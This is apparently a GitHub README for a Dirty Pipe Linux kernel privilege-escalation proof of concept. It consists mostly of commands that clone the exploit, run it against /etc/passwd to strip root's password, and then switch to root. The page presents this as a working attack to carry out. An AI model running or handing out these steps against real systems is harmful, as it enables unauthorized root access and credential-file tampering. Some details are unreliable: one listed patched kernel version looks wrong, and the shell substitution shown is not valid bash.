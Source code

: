 # Dirty-Pipe (PoC)

![image1](https://i.imgur.com/VDCLoTZ.png)

# What is it?

Dirty-Pipe is a vulnerability which allows us to overwrite files even if they have read-only permissions. This vulnerability affects kernel versions 5.8 onwards. This vulnerability has reportedly been patched for kernel versions 5.10.102, 5.12.25 and 5.16.11.

---

1. First of all, we must clone the repository where the exploit is located. 

```bash
git clone https://github.com/Nekoox/dirty-pipe.git
```

2. Once cloned, we enter the directory and execute the exploit with the following syntax.

```bash
cd dirty-pipe
```

```bash
chmod +x exp
```

````bash
./exp /etc/passwd 1 "${$(cat /etc/passwd)/root:x/oot:}"
````

3. Once run, if the kernel version is vulnerable, it should work fine. We change to root.

```bash
su
```

![image](https://i.imgur.com/D2Qm4qh.png)

And as we can see we have successfully exploited Dirty-Pipe!
